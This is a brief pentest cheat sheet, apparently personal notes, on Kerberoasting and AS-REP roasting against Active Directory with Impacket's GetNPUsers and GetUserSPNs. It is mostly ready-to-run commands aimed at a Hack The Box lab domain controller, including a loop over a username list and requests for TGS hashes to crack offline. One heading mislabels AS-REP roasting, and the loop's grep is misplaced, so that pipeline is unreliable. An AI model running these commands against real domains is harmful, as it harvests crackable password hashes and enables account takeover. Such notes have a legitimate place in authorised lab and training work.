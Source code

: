 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# Kerberoasting
## GetNPUsers (Impacket)
````bash
impacket-GetNPUsers htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass
````

## Bruteforcing Kerberoasting
AS-REP roasting is a technique that allows retrieving password hashes for users that have Do not require Kerberos preauthentication property selected:

![](https://www.ired.team/~/files/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nj7h01rJKzhElx_RC%2F-L_njEkL2a_oSCa1g0H9%2FScreenshot%20from%202019-03-12%2021-08-33.png?alt=media&token=dc08b9a5-1cae-4762-a6a0-773735227aad)

## Looping through a username list
**bash while read do**
````bash
while read p; do GetNPUsers.py <domain>/"$p" -request -no-pass -dc-ip <DC-IP> >> hash.txt; done < usernames.txt | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN' usernames.txt
````
**Impacket builtin loop**
````bash
GetNPUsers.py <domain>/ -no-pass -usersfile <username.txt> -dc-ip
<DC-IP> | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'
````

## GetUserSPNs
Impacket’s GetUserSPNs.py again simplifies the process to find SPNs, and is also able to request the TGS and
extract the hash for offline cracking.
````bash
impacket-GetUserSPNs <domain>/<username> -dc-ip <DC-IP>
````
### Requesting TGS ticket
Requesting a Ticket Granting Service ticket, which is can be cracked offline because the TGS_REP is encrypted using NTLM password hash of the account in whose context the service instance is running.
````bash
impacket-GetUserSPNs <domain>/<username> -dc-ip <DC-IP> -request
````

